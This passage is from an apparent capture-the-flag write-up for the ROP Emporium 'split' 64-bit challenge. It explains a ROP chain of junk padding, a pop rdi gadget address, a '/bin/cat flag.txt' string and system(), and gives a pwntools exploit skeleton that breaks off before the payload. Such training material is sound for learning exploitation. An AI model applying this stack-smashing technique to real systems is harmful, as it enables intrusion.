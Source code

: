 In order to call system with the string, we need to place the string into the RDI register before the system call. And since the `pop rdi` takes the _next stack address_ and pops it into the register, the pop call needs to be right before the string address. so the chain have to look something like this

```
[junk] + [pop rdi] + [usefulString] + [system]
```

Which is easily constructed in our exploit code, now that we have all the parts needed.

## Split

This time we'll go straight to pwntools, but you can substitute the names for binary addresses if you want. So the different parts we need just to reiterate are

- Junk - which is `'A'*40` in order to control RIP and execute our own addresses
- usefulString - `exe.symbols.usefulString` the address to `/bin/cat flag.txt`
- System() - `exe.symbols.system` to create the system call
- pop rdi - `0x00400883` to put the next stack address onto the proper register

And in the final exploit we'll use pwntools function p64(address) in order to convert a memory address into a packed string.

### Final Exploit
```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/10/ropemporium-1-split-64-bit/

#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('split')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

# -- Exploit goes here --
```